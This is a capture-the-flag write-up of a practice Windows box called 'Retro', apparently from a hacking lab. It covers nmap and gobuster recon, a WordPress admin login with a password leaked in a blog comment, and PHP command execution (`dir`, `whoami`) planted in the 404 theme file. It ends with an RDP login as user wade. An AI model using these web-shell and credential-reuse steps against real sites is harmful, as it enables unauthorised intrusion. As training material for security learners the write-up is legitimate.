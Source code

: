 | A write-up on Retro | By Herman Detwiler | 8/6/22

# Overview of Attack Chain

This Box has two different paths you can take to get innitial access. After dicovering two open ports, either can become your door into the system. Either method however (at least from what I could gather) requires finding the username wade on the website being hosted. From there two different attack paths open up:

1. Scanning through the web-site itself you can find login info and get admin access to the wordpress site, and gain a shell from injecting php into the 404 theme wordpress plugin.
2. Using the found username wade you can bypass having to log into the wp admin and simply rpd into the box using the user name wade.

From there you can find that it is an older version of windows that is vulnerable to a kernal exploit, which you can use to get root.


# Recon
prompt: *here are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.*

## Nmap
Going to start by enumerating open ports with Nmap 
```
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-06T05:01:37+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-05T04:59:27
| Not valid after:  2022-02-04T04:59:27
| MD5:   5407 8320 ca7a 1650 d76e dc07 58a2 98f5
| SHA-1: a554 f5c1 2d2c 3a2e d097 312a 7eeb 0daa 2be5 f7c0
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQawanPWJIgrREnUqg1NstqjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA4MDUwNDU5MjdaFw0yMjAyMDQwNDU5
| MjdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEA1uReS6MpKJDO9SQ1vjO9MrMi3ckyjwCEIIbq6+XF7gMGxKzk9AV4
| 06qaVvykQDkPwXxzqpCu1nHzTeP8hmLFQF2xgoizxs+lhJ0CiQlVJqyYMz4gYZqE
| A24cCoBmFh7jlE+r3Z/+nvr1qM1w5QClQY0uRLb6nDPz1E/e+d2vEij4+M9ojg9+
| Uk7XlJ8VYxitzQd4hK+65j2HG0o2vrE9Q3P5NGZIb8BtJYQXhetZLmDE7tb2J0pI
| l6rZOBZTAh0L+ntImjTosSUtTMacWjU+1dY10CoiKA/WloQ4aRRxCrq34fkBdRNX
| RDB/OYTfKRRpMhs/sOey57gqnOSdmh0LbwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAIju80JspY99
| 85zvjttaoihm9siU11ldiCqLN17YDwGlTbTamjz+PCVlb1Ztjh4URLIaMbZI/4HP
| ZUNmqnheLnBeYVz4ouPHRFIirfIB8bIDXGEeVOZhmJ/WNzVFpSfghASnrW2jNI/9
| /hhrnl4CuajFMLqB2Gh+/wGy0dPnadB+63BX1OVetnh1pFyUtqC9JnuQSaOf5Xmf
| NhcfCgF/gMS5fwdzQTq8id/njDRvFMaNOj4o9PxaMMhMjewtfNjTm5PVsvR8dUMm
| 4PKs2JMVgNNxasPiODWe8mQm8TN6d6J6tFhZiMKhoeCrfawwKCA359U9Wkl/Q1Od
| Wie2tv5J4oc=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-08-06T05:01:38+00:00; +1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Finding that there is a webserver and port 80, I check it in my browser and start a gobuster scan to enumerate while checking out the other open port with a service called ms-wbt-server syn-ack Microsoft Terminal services, which has a high probabilty of my way into the network. 

## Gobuster

`gobuster dir -u http://10.10.36.164 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt`

```===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.36.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/06 01:12:23 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.36.164/retro/]
```
## Manually viewing website

Checking out /retro I get a pretty sweet retro gaming blog being hosted, I start pulling out some potentially useful info, while throwing the /retro sub domain back into gobuster to keep some scanning going on while I work at poking around the website more.

![image](https://user-images.githubusercontent.com/83407557/128460426-35865e35-e121-4bb7-8a5b-71cb8fdd8b6e.png)

*Clicking on account Wade I am able to get some potential password leakage in a comment*

![image](https://user-images.githubusercontent.com/83407557/128460933-e2e8b439-bb26-417c-9df2-a839baadb2f8.png)

*The comment did contain a password, and we login as admin to this wordpress site*

also find Wade's company Email: darkstar@darkstar7471.com

One of the places you can upload php on a wordpress site is in their "Themes" feature, in there I find a theme that is a php file that gets loaded on any 404 error.

![image](https://user-images.githubusercontent.com/83407557/128466978-781eb853-b5f8-477a-9ef6-8db90e05c8b4.png)

I remove the stuff that isn't usefull to me and add my own spin on the 404.

![image](https://user-images.githubusercontent.com/83407557/128467501-7ab734d8-4ec4-4cf4-9ad9-5f9e459db2f3.png)

Then, by going to a page on /retro's index.php that I know (or am like 99% sure) doesn't exist, I get my much better 404 error:

![image](https://user-images.githubusercontent.com/83407557/128468198-3a6dc292-ef76-4ce1-a67f-28d36edbce10.png)

Then goal is to make the 404 actually return a reverse shell, since I know this is a windows machine let's see if I can get some more info.

```php
<?php echo `dir`;?>
```

```
Volume in drive C has no label. Volume Serial Number is 7443-948C Directory of C:\inetpub\wwwroot\retro 12/08/2019 05:02 PM
. 12/08/2019 05:02 PM
.. 05/30/2019 02:55 AM 420 index.php 05/30/2019 02:55 AM 19,935 license.txt 05/30/2019 02:55 AM 7,447 readme.html 05/30/2019 02:55 AM 6,919 wp-activate.php 12/08/2019 05:02 PM
wp-admin 05/30/2019 02:55 AM 369 wp-blog-header.php 05/30/2019 02:55 AM 2,283 wp-comments-post.php 05/30/2019 05:17 AM 2,853 wp-config-sample.php 12/08/2019 06:31 PM 2,849 wp-config.php 12/08/2019 06:31 PM
wp-content 05/30/2019 02:55 AM 3,847 wp-cron.php 12/08/2019 05:02 PM
wp-includes 05/30/2019 02:55 AM 2,502 wp-links-opml.php 05/30/2019 02:55 AM 3,306 wp-load.php 05/30/2019 02:55 AM 39,574 wp-login.php 05/30/2019 02:55 AM 8,403 wp-mail.php 05/30/2019 02:55 AM 18,962 wp-settings.php 05/30/2019 02:55 AM 31,085 wp-signup.php 05/30/2019 02:55 AM 4,764 wp-trackback.php 05/30/2019 02:55 AM 3,068 xmlrpc.php 17 File(s) 158,586 bytes 5 Dir(s) 30,425,051,136 bytes free 
```
```php
<?php echo `dir ..\`;?>
```

```
Volume in drive C has no label. Volume Serial Number is 7443-948C Directory of C:\inetpub\wwwroot 12/08/2019 05:02 PM
. 12/08/2019 05:02 PM
.. 12/08/2019 04:52 PM 703 iisstart.htm 12/08/2019 04:52 PM 99,710 iisstart.png 12/08/2019 05:02 PM
retro 2 File(s) 100,413 bytes 3 Dir(s) 30,425,051,136 bytes free 
```
**note, going back farther throws and error**

```php
<?php echo `whoami`;?>
```
```
nt authority\iusr 
```

## Reverse Shell

using msfvenom I am going to create a php rev shell

## RDP

using your rpd client of choice you can rpd with wades creds.

```bash
xfreerdp /u:wade /v:10.10.6.119
```
![image](https://user-images.githubusercontent.com/83407557/128915076-00ebc7a2-5bf7-4aad-8d8a-56a1ec92bf1c.png)

Doing so was can see users.txt on the desktop


# Questions

1. A web server is running on the target. What is the hidden directory which the website lives on?

2. what is the user.txt

3. what is the root.txt
